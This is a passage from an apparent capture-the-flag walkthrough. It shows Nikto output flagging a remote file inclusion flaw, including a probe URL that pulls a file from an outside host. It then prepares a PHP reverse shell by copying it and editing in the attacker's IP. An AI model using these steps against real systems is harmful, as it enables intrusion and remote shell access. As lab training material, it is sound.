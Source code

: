 ```shell
+ /: Web Server returns a valid response with junk HTTP methods which may case false positives.
+ /images/: Directory indexing found.
+ /index.php: Output from the phpinfo() function was found.
+ /index.php?page=http://blog.cirt.net/rfiinc.txt?: Remote File Inclusion (RI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c68658487015a2
+ 8102 requests: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2024-02-04 12:34:50 (GMT-5) (45 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
- Nikto has detected the Remote File Inclusion (RFI) vulnerability.

#### >> Let’s copy the PHP webshell to our working directory and open it with Visual Code
```shell
┌──(kali㉿kali)-[~/Desktop/quick]
└─$ cp /usr/share/webshells/php/php-reverse-shell.php ./shell.php
                                                                            
┌──(kali㉿kali)-[~/Desktop/quick]
└─$ ls
shell.php
                                                                            
┌──(kali㉿kali)-[~/Desktop/quick]
└─$ code shell.php                                               
┏━(Message from Kali developers)
┃ code is not the binary you may be expecting.
┃ You are looking for \"code-oss\"
┃ Starting code-oss for you...
┗━
```


<strong>Replace with your local IP, save and close</strong>

